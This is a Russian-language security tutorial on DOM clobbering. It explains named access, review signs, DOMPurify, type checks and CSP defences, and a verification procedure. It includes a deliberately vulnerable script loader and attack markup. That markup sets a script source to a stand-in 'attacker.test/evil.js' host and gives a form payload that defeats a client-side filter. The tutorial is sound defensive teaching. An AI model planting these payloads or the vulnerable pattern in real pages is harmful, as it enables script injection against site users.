

# DOM clobbering

На сайте с комментариями работает санитайзер — библиотека, которая разбирает
присланную разметку и вырезает из неё опасное: скрипты и обработчики событий.
Пользователь вставляет в комментарий обычную ссылку `<a id=config>`, и
санитайзер её пропускает, потому что ни скрипта, ни обработчика в ней нет.
После публикации на странице перестаёт работать настройка по умолчанию:
выражение `(window.config || {a: 'default'}).a`, которое раньше давало
`'default'`, теперь возвращает `undefined`. При этом ничего не падает,
страница работает дальше, и по сбою такую поломку не найти.

Это и есть DOM clobbering, подмена значения переменной элементом разметки:
clobber переводится «затоптать», и разметка здесь топчет то, что объявил
разработчик. Ниже разберём, откуда у браузера такая особенность, как подмена
доводится до загрузки чужого скрипта и как приложение от неё закрыть.

## Как это работает

Скрипт и разметка встречаются в дереве разметки страницы; его устройство
разбирает тема `xss-dom`. У этой встречи есть особенность: браузер сам
заводит свойства глобального объекта `window` и объекта `document` по
атрибутам `id` и `name` элементов. Особенность называется именованным
доступом: элемент становится доступен по имени, как переменная, хотя такой
переменной разработчик не объявлял.

Именованный доступ похож на ключницу в холле гостиницы. На каждом крючке
висит табличка с номером, и гость называет номер, не видя самого ключа.
Табличка соответствует атрибуту `id` или `name`, крючок — свойству объекта
`window` или `document`, ключ — самому элементу, а выражение `window.config` —
просьбе «дайте ключ с таблички config». Аналогия ломается в одном месте: в
гостинице таблички вешает администратор, а в браузере табличку создаёт любая
разметка, попавшая на страницу, включая присланную пользователем.

**Откуда это взялось.** Именованный доступ — наследство ранних браузеров,
когда обращение к элементу по имени было единственным способом добраться до
него из скрипта. Способ остался ради совместимости и вошёл в стандарт HTML, а
вместе с ним осталось и правило поиска: имя элемента перекрывает то, что
объявил разработчик. Пока всю разметку писал автор страницы, столкновение
имён было его собственной ошибкой. Когда часть разметки стала приходить от
пользователей через комментарии и профили, ошибка стала управляемой снаружи.

### Куда попадают имена

Именованный доступ заводит не любое имя и не в любом месте. Элемент с
атрибутом `id` виден в глобальной области, то есть как свойство `window`.
Атрибут `name` работает у трёх семейств — формы, картинки и встроенные
объекты, — и их имена попадают и на `document`, и на `window` одновременно.
Разницу видно по прогонам в браузере `HeadlessChrome/152.0.7977.42`.
Элемент `<a id=config>` завёл свойство `window.config`, и его значением
оказалась сама ссылка, узел разметки. А `document.config` от того же
атрибута `id` не завёлся, потому что на `document` имя попадает через `name`.

Проверено на соседних тегах. Картинка `` завела свойство
`document.logo`, а форма с `name=config` — и `document.config`, и
`window.config`, как и обещает правило про три семейства. У ссылки такого
права нет: `<a name=lnk>` не завёл ни `window.lnk`, ни `document.lnk`.
Работает и вложенность: пара
`<form name=cfg><input name=url value="from-form">` заводит цепочку
`document.cfg.url.value`, и чтение по ней даёт строку из разметки,
`from-form`. Имя формы завело свойство на `document`, имя поля — свойство на
форме, и значение поля уходит в скрипт, который его прочитает.

### Разметка находится раньше объявления

Cheat sheet OWASP подчёркивает главное в правиле поиска: свойства от
элементов находятся раньше встроенных интерфейсов и атрибутов, которые
разработчик положил на `window` и `document`. Поэтому уязвим типовой образец
из академии PortSwigger: чтение глобального имени с умолчанием,
`window.someObject || {}`, внутри обработчика вроде `window.onload`. Пока
глобального имени нет, чтение даёт `undefined`, и по оператору `||` берётся
пустой объект. Внедрённый элемент с таким `id` заводит это имя, и берётся
уже он. Проверено прогоном: после появления на странице элемента
`<a id=config>` выражение `(window.config || {a: 'default'}).a` вернуло
`undefined` вместо `'default'`. Умолчание перестало работать, не сломав
ничего заметного: значение подменено, а страница работает.

У образца есть граница, и она предвосхищает защиту. То же чтение с `var` на
верхнем уровне скрипта подмене не поддаётся. Причина: `var` создаёт
собственное свойство на `window`, и именованный доступ до элемента уже не
доходит. Проверено прогоном 2026-10-03: с двумя внедрёнными ссылками
верхнеуровневый `var` получил пустой объект, а тот же `var` внутри
обработчика и верхнеуровневый `let` — коллекцию с адресом атакующего.
Уязвимо именно чтение глобального имени, у которого собственного свойства
нет. Эта граница станет второй мерой в разделе про защиту.



**Описание схемы.** Схема читается сверху вниз и показывает путь внедрённой
ссылки до места, где ломается умолчание. Санитайзер пропускает ссылку,
потому что скрипта в разметке нет. Браузер при построении дерева заводит
свойство `window.config` по атрибуту `id`. Скрипт читает это свойство с
умолчанием и получает узел-ссылку вместо объекта настроек. Защита ставится
на два шага этого пути: не давать разметке заводить имя и не доверять
прочитанному без проверки типа.

## Как подмена становится уроном

Само по себе подменённое умолчание только портит настройку. Урон начинается
там, где прочитанное значение управляет действием. Академия PortSwigger
показывает цепочку целиком на странице, которая грузит внешний скрипт.
Разбор ниже идёт тремя планами: найти, какое имя читает код; найти, куда
уходит прочитанное; назвать, чем разметка подменяет каждый шаг.

**Уязвимый код страницы, упрощено для примера**

```javascript
// УЯЗВИМО — демонстрация, не для продакшена
let someObject = window.someObject || {};   // (1)
let script = document.createElement('script');
script.src = someObject.url;                // (2)
document.body.appendChild(script);          // (3)
```

1. Имя `someObject` читается из глобальной области с умолчанием через `||`,
   и такое чтение подменяется именованным доступом.
2. Прочитанное без проверки типа уходит в адрес будущего скрипта.
3. Скрипт добавляется на страницу, и браузер загружает адрес из шага 2.

Внедрение под эту цепочку — две ссылки:

**Разметка атакующего**

```html
<a id=someObject>
<a id=someObject name=url href="https://attacker.test/evil.js">
```

Здесь работают два приёма сразу. Первый: двух элементов с одним `id`
браузер не выбирает, а сводит в коллекцию — список узлов, где элемент
находится ещё и по атрибуту `name`. Поэтому `window.someObject` — уже не
узел, а коллекция из двух ссылок, и чтение `someObject.url` находит в ней
вторую ссылку по её `name=url`. Второй приём: узел-ссылка при приведении к
строке даёт свой адрес, поэтому присваивание `script.src = someObject.url`
кладёт в адрес скрипта строку из `href`.

Проверено прогоном 2026-10-03 в том же браузере: `window.someObject`
оказался коллекцией из двух узлов, `someObject.url` дал вторую ссылку, а
`script.src` после присваивания получил адрес `https://attacker.test/evil.js`.
Сама загрузка и исполнение не воспроизводились: прогон шёл офлайн, без сети.

### Подмена против самого фильтра

Вторая техника из академии бьёт по клиентскому фильтру разметки. Такой
фильтр перебирает атрибуты элемента через свойство `attributes` и снимает
запрещённые. Внедрение `<form onclick=alert(1)><input id=attributes>`
подменяет это свойство: `id=attributes` у поля заводит на форме одноимённое
свойство, и чтение `form.attributes` находит поле, а не список атрибутов. У
поля нет свойства `length`, и цикл вида `i < form.attributes.length` не
выполняется ни разу: фильтр идёт к следующему элементу, а обработчик
`onclick` уцелел. Проверено прогоном: `form.attributes` оказалось
узлом-полем, а не списком `NamedNodeMap`, и атрибут `onclick` на форме
остался на месте. Заметьте связку: подмена не исполняет код сама, а
выключает защиту, которая этот код вырезала.

## Что искать на ревью

Класс узнаётся не по нагрузке, а по коду, потому что внедрённая разметка без
скрипта проходит очистку штатно. Первый признак — пара из глобального имени
и значения по умолчанию через `||` или `??`, как в уязвимом листинге раздела
про урон. Второй признак — чтение свойства `document`, которого нет в
стандарте: приложение хранит там своё значение, а элемент разметки с тем же
именем его перекрывает. Оба признака видны при чтении кода, и оба проверяются
вставкой элемента в консоли браузера.

**Зачем это в работе AppSec-инженера.** Это единственный клиентский класс,
который проходит сквозь очистку разметки штатно, и потому его ищут отдельно,
по коду, а не по нагрузке. Соседний класс, где оружием тоже служат свойства
объектов, разбирает тема `prototype-pollution`: там подменяют прототип, а
здесь глобальное имя, и приёмы ревью у них разные.

Скажите, не возвращаясь к тексту: почему санитайзер, который пропускает
«безопасные» теги, против этого класса не работает?

## Как закрыть подмену

Cheat sheet называет меры, которые закрывают разные шаги пути из схемы.
Первая не даёт разметке завести имя, вторая не даёт коду доверять
прочитанному, третья убирает саму площадку подмены.

### Мера первая: санитайзер с изоляцией имён

Библиотека DOMPurify по умолчанию убирает столкновения имён со встроенными
свойствами браузера. Для собственных имён вроде `config` нужна настройка
`SANITIZE_NAMED_PROPS: true`: она изолирует пространство имён, дописывая к
значениям `id` и `name` постоянную приставку `user-content-`. Ссылка из
начала темы вернётся из очистки с `id="user-content-config"`, и под чтение
`window.config` она уже не попадёт.

У встроенного в браузер санитайзера, знакомого по теме `xss-dom` как метод
`setHTML`, умолчание другое. Cheat sheet предупреждает: по умолчанию он
именованные свойства не убирает, и защиту включают настройкой — списком
атрибутов `id` и `name` на вырезание. Само умолчание при этом движется от
издания к изданию: прогон 2026-10-03 показал, что `setHTML` в
`HeadlessChrome/152.0.7977.42` атрибут `id` всё же убрал. Вывод практический:
на умолчание полагаться нельзя, защита объявляется явно.

### Мера вторая: явное объявление и проверка типа

Cheat sheet требует объявлять переменные явно: объявление через `var`, `let`
или `const` создаёт собственное имя, которое именованный доступ не
перекрывает. У требования есть тонкость: `let config` не создаёт свойства
`window.config`, поэтому чтение `window.config` остаётся подменяемым, даже
когда переменная объявлена. Объявление защищает только тот код, который
читает своё имя, а не глобальное свойство. Зеркальная тонкость видна в
разделе про механику: `var` на верхнем уровне создаёт свойство на `window`,
и даже чтение `window.config` оказывается защищено. Но полагаться на это не
стоит: та же строка внутри функции такого свойства не создаёт, и подмена
возвращается.

Вторая половина меры — проверка типа перед использованием.
Значение из именованного доступа — узел разметки, а не объект настроек, и
проверка `typeof` или `instanceof` такое значение отбраковывает. Для фильтра
из второй техники академия советует проверять, что `attributes` — экземпляр
`NamedNodeMap`, то есть настоящий список атрибутов, а не подменённый элемент.

**Исправленный код, упрощено для примера**

```javascript
// Исправленный вариант
const settings = { workerUrl: 'worker.js' };   // (1)
if (typeof settings.workerUrl !== 'string') {  // (2)
    throw new TypeError('workerUrl должен быть строкой');
}
const script = document.createElement('script');
script.src = settings.workerUrl;               // (3)
document.body.appendChild(script);
```

1. Настройки объявлены явно и живут в коде, а не в глобальной области:
   разметка такое имя завести не может.
2. Тип значения проверен до использования: подменённый узел — не строка, и
   проверка останавливает его здесь.
3. В адрес скрипта уходит только значение, которое прошло проверку.

### Мера третья: не хранить значения в глобальной области

Третья мера убирает саму площадку: глобальные значения не хранят на `window`
и `document`. Того же требует стандарт проверки ASVS, требование
v5.0-3.2.3. Настройки живут в объявленном объекте модуля, в локальной
области или в полях класса. Cheat sheet советует сужать область видимости и
прятать значения внутрь объектов: туда именованный доступ их не достаёт.

Ещё две меры снижают урон, но не закрывают класс. Политика
CSP (Content Security Policy) из темы `csp` с директивой `script-src` не даст
загрузить скрипт с чужого адреса. Она закрывает именно вариант с загрузкой
из первой цепочки. А вот подмену значения, которое уходит строкой в `eval`,
она не закрывает: такая строка исполняется на месте, без загрузки по адресу.
Вызов
`Object.freeze` для важных объектов не даёт именованным элементам
перезаписать их свойства, но перечислить все объекты, которые стоит
заморозить, трудно, и мера остаётся точечной.

### Как убедиться, что защита работает

Проверка повторяет атаку на тестовой странице:

1. Найдите в коде чтение глобального имени с умолчанием через `||` или `??`.
2. Вставьте на страницу через пользовательский ввод элемент с этим `id` или
   `name`.
3. Сравните в консоли, что читает код до вставки и после: тип и значение.
4. Повторите вставку после включения защиты и убедитесь, что имя больше не
   заводится или значение отбраковано проверкой типа.

Если после включения `SANITIZE_NAMED_PROPS` элемент вернулся из очистки с
приставкой `user-content-` в имени, первая мера работает. Если подменённое
значение остановилось на проверке типа, работает вторая. Подмена,
остановленная хотя бы на одном шаге, не доходит до действия, и цепочка
разорвана.

## Источники

1. PortSwigger Web Security Academy, «DOM clobbering»; реестр
   `ps-dom-clobbering`. Разделы: What is DOM clobbering, How to exploit
   DOM-clobbering vulnerabilities, How to prevent DOM-clobbering attacks.
   <https://portswigger.net/web-security/dom-based/dom-clobbering>
2. OWASP DOM Clobbering Prevention Cheat Sheet; реестр
   `owasp-cs-dom-clobbering`. Разделы: Background, Mitigation Techniques —
   HTML Sanitization, Freezing Sensitive DOM Objects, Secure Coding
   Guidelines.
   <https://cheatsheetseries.owasp.org/cheatsheets/DOM_Clobbering_Prevention_Cheat_Sheet.html>

Каркас этапа: `owasp-asvs-5-document` (ASVS v5.0.0), `owasp-wstg-42`,
`owasp-top10-2025`. Наследуются всеми темами и отдельной строкой не
повторяются.

**Скоропортящийся слой.** Поведение встроенного санитайзера браузера по
именованным свойствам меняется вместе с версией: настройка по умолчанию у
разных изданий разная. При ревизии прогон с `setHTML` повторять на свежем
издании браузера.

**Маркеры уверенности.** Именованный доступ — **проверено лично** 2026-10-03
в браузере `HeadlessChrome/152.0.7977.42`: `<a id=config>` завёл
`window.config`, выражение с умолчанием через `||` вернуло `undefined`, пара
`<form name=cfg><input name=url>` дала `document.cfg.url.value`, `` дал `document.logo`, `document.config` от атрибута `id` не
завёлся, а от формы с `name=config` завёлся вместе с `window.config`.
Цепочка с двумя ссылками — **проверено прогоном** 2026-10-03:
`window.someObject` стал коллекцией из двух узлов, `someObject.url` дал
вторую ссылку, приведение её к строке дало адрес из `href`, и `script.src`
после присваивания получил адрес атакующего; загрузка и исполнение скрипта
**не воспроизводились**, прогон шёл офлайн, без сети. Граница образца с
умолчанием — **проверено прогоном** 2026-10-03: верхнеуровневый `var`
получил пустой объект, а `var` внутри обработчика `window.onload` и
верхнеуровневый `let` — коллекцию с адресом атакующего. Граница `name` —
**проверено прогоном** 2026-10-03: `<a name=lnk>` не завёл ни `window.lnk`,
ни `document.lnk`. Подмена `attributes` —
**проверено прогоном** 2026-10-03: `form.attributes` оказалось узлом-полем
вместо списка `NamedNodeMap`, обработчик `onclick` уцелел. Правило поиска
имени, приставка `user-content-`, настройки DOMPurify и требование явного
объявления с оговоркой про `let` — **по документации**. Меры с политикой CSP
и заморозкой объектов — тоже **по документации**. Это DOM Clobbering
Prevention Cheat Sheet и Web Security Academy, обе страницы открыты лично
2026-10-03. Расхождение: cheat sheet пишет, что встроенный санитайзер
браузера по умолчанию именованные свойства не убирает. Прогон же показал,
что `setHTML` в этом издании атрибут `id` убрал.
